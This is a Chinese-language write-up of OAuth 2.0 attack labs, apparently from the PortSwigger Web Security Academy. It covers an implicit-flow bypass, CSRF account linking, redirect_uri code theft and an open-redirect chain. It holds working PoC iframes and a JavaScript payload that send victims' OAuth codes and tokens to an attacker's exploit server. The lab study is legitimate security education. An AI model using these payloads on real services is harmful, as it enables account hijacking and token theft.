 ## 记 OAuth2.0攻击

#### 0x00 OAuth2.0 参数剖析

**response_type：**code 表示要求返回授权码，token 表示直接返回令牌

**client_id：**客户端身份标识

**client_secret：**客户端密钥

**redirect_uri：**重定向地址

**scope：**表示授权的范围，read只读权限，all读写权限

**grant_type：**表示授权的方式

- AUTHORIZATION_CODE（授权码）

- password（密码）

- client_credentials（凭证式）

- refresh_token 更新令牌

------

#### 0x01 OAuth2.0 四种授权模式

- ###### 授权码（authorization-code）

  ![image-20220520175710334](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520175710334.png)

- ###### 隐藏式（implicit）

  ![image-20220520175941184](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520175941184.png)

- ###### 密码式（password）![image-20220520180010086](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520180010086.png)

- ###### 客户端凭证（client credentials）

  ![image-20220520180048200](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520180048200.png)

------

#### 0x02 0Auth2.0 隐藏式身份验证绕过

**请求授权**

![image-20220520181246682](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181246682.png)

**同意授权获得token，通过token获取cookie**

![image-20220520181517199](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181517199.png)

**漏洞点/绕过点：**修改其它用户的邮箱，也能成功获得其它用户的cookie

![image-20220520181546600](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181546600.png)

**通过Burpsuite->Repeat request in browser校验**

![image-20220520181805499](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181805499.png)

![image-20220520182652158](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520182652158.png)

------

#### 0x03 OAuth2.0 CSRF接管

**简单描叙一个功能点：**有点类似于绑定其它登录方式 或 绑定其它乱七八糟功能，绑定通过OAuth授权，如下图**Attach a social profile**，绑定其它社交信息

![image-20220520184150255](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184150255.png)

**点击绑定其它社交信息跳转到正常登录，登录后正常授权抓包**

![image-20220520184253580](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184253580.png)

![image-20220520184408228](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184408228.png)

**漏洞点：**生成一个code，用于绑定指定用户，**假设cookie是管理员的cookie，构造CSRF Poc html发送给管理员，则管理员就会绑定我们的账号**

![image-20220520184718526](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184718526.png)

构造**CSRF Poc html：**

```html
<iframe src="https://acc61f971eacf531c00b3d7f0064002d.web-security-academy.net/oauth-linking?code=VQwmD2XBVMCDgyjbMAgkt4zuQvUtkO_quJe-EKSC2OL"></iframe>
```

**发送给管理员点击后,选择其他社交方式登录重新登录一下**

![image-20220521143909043](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521143909043.png)

------

#### 0x04 OAuth2.0 redirect_uri钓鱼导致账户劫持

**功能点：**正式登录授权后，退出登录，再次登录会自动授权

**漏洞点：**redirect_url未设置白名单导致可控，带着授权码访问到指定域

![image-20220521151508050](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151508050.png)

**构造POC:**发送给管理员钓鱼，redirect_uri设置为自己的服务器，或ceye

```
<iframe src="https://oauth-aca11f751fccbbe0c0f08e24022a0007.web-security-academy.net/auth?client_id=ghi5v1pgoqqo7fhx1q8ko&redirect_uri=https://exploit-ac091fa21fdfbbafc02a8ee801370068.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```

查看日志，当管理员点击后，授权码将会被记录到Web日志中

![image-20220521151849006](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151849006.png)

退出账号，替换管理员的授权码重新登录

![image-20220521151919680](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151919680.png)

完成账户劫持

![image-20220521151938203](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151938203.png)

------

#### 0x05 OAuth2.0 重定向漏洞组合拳劫持管理员账户

与0x04漏洞原理一致，但是这边做了白名单限制，更贴近了实战

![image-20220521155829461](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521155829461.png)

**同站点重定向漏洞：**

![image-20220521155925890](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521155925890.png)

**组合拳：**利用重定向漏洞与目录穿越达到跳转，绕过白名单，既

`https://ac3f1f6b1fbafb3cc068038b00b400ed.web-security-academy.net/oauth-callback/../post/next?path=https://www.baidu.com`

**构造Poc：**

```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-ac7f1fae1f27fb30c0ea0380028500a8.web-security-academy.net/auth?client_id=p9pdffs4rjxs88th8i9de&redirect_uri=https://ac3f1f6b1fbafb3cc068038b00b400ed.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac5a1fb91fbcfb5fc06d0382015d00cf.web-security-academy.net/exploit&response_type=token&nonce=1467868674&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

**查看日志：**成功打到了token

![image-20220521160152887](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521160152887.png)

利用token登录admin

![image-20220521160214012](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521160214012.png)

#### 

